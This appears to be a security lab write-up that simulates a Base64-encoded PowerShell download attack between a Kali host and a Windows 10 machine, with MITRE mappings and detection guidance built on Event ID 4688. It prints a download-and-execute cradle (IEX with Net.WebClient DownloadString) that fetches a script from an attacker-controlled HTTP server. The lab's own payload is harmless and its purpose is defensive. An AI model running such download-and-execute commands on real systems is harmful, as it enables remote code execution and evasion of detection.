






# Case 8 – Encoded PowerShell Download Attack

## Overview

This lab demonstrates a common attacker technique where PowerShell commands are **encoded using Base64** to evade detection.

The encoded command downloads and executes a remote payload from an attacker-controlled server.

This technique is widely used in real-world attacks and red team operations.

---

## MITRE ATT&CK Mapping

| Technique | ID |
|----------|----|
| PowerShell | T1059.001 |
| Obfuscated / Encoded Commands | T1027 |
| Ingress Tool Transfer | T1105 |

---

## Lab Environment

Attacker Machine

```
Kali Linux
192.168.100.20
```

Target Machine

```
Windows 10
192.168.100.10
```

---

## Attack Scenario

The attacker encodes a PowerShell command that downloads a payload from a remote HTTP server.

The encoded command is then executed using:

```
powershell.exe -EncodedCommand
```

This hides the real command from simple inspection.

---

## Step 1 – Create Payload on Kali

```
nano payload2.ps1
```

Payload content:

```
Write-Output "Encoded attack simulation"
```

---

## Step 2 – Start HTTP Server

```
python3 -m http.server 8000
```

This hosts the payload for download.

---

## Step 3 – Execute PowerShell Download

The original command:

```
IEX (New-Object Net.WebClient).DownloadString("http://192.168.100.20:8000/payload2.ps1")
```

---

## Step 4 – Encode the Command

The command is converted to Base64 using PowerShell encoding.

---

## Step 5 – Execute Encoded PowerShell

```
powershell.exe -EncodedCommand <Base64 string>
```

This executes the payload while hiding the original command.

---

## Evidence of Attack

Kali HTTP Server log:

```
GET /payload2.ps1 HTTP/1.1
```

Windows Security Event Log:

```
Event ID: 4688
Process: powershell.exe
CommandLine: powershell.exe -EncodedCommand
```

---

## Indicators of Compromise

Security analysts should monitor for:

```
powershell.exe
-EncodedCommand
Base64 strings
DownloadString
Net.WebClient
```

---

## Detection Strategy

Monitor **Event ID 4688** and search for PowerShell processes containing:

```
EncodedCommand
```

Encoded PowerShell execution is often associated with malicious activity.

---

## Screenshots

### Creating Payload on Kali



Creating the payload file on the Kali attacker machine.

---

### Payload Content



The PowerShell payload script used for the attack simulation.

---

### Starting HTTP Server


Python HTTP server started on Kali to host the payload.

---

### Executing PowerShell Download



PowerShell command used to download the payload.

---

### Kali Receiving HTTP Request



Kali server logs showing the incoming GET request.

---

### Encoding the PowerShell Command


PowerShell command converted into Base64 encoded format.

---

### Executing Encoded PowerShell



Execution of the encoded PowerShell command.

---

### Event ID 4688 Detection



Windows Security Log showing the encoded PowerShell execution.
